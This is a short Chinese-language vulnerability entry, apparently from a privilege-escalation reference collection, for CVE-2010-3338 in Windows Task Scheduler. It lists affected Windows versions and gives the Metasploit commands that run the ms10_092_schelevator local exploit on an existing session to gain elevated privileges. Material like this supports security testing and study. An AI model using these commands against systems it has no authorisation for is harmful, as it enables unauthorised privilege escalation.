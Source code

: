 ### CVE-2010-3338

#### 描述

Windows Task Scheduler无法正确确定计划任务的安全上下文，这使本地用户可以通过精心设计的应用程序获取特权

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

测试系统 Windows Server 2008 SP2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-3338_win2008_x86_msf.png)

然后就能提权成功了

![image-20200822234608009](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2010-3338_win2008_x86_msf2.png)

